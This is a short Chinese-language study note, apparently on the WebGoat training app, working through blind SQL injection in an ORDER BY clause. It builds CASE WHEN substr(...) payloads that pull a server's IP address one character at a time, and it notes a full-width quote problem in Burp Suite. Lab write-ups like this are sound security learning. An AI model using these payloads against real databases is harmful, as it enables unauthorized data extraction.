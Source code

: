 看了别人的，这个地方上一页其实讲了
![](../images/Pasted%20image%2020241111144249.png)
但好像少写了END
`(CASE+WHEN+(true)+THEN+1+ELSE+2+end)`
![](../images/Pasted%20image%2020241111144358.png)
`(CASE+WHEN+(substr('2222',1,1)='1')+THEN+1+ELSE+2+end)`应该输出按照Hostname排序的但是没有变化
很奇怪，最后还是把1和2改成列名了，必须通过修改
![](../images/Pasted%20image%2020241111153416.png)
这样才对 `(CASE+WHEN+(substr('2222',1,1)='1')+THEN+id+ELSE+hostname+end)`
那就可以盲注了

string字符串是：`(select ip from servers where hostname=‘webgoat-prd’)
> [!warning] 
>  此处拷贝自网页的字符串好像有问题，这个引号是中文字符！！！！
>  Burpsuite拷贝过去后会吞掉中文字符，看起来就是引号消失了，自己补充一下引号其实会变成下面的状态
> (CASE+WHEN+(substr((select+ip+from+servers+where+hostname='webgoat-prd'),1,1)='1')+THEN+id+ELSE+hostname+end)
> 但是页面看不到乱码！！！！
>  ![](../images/Pasted%20image%2020241111154052.png)
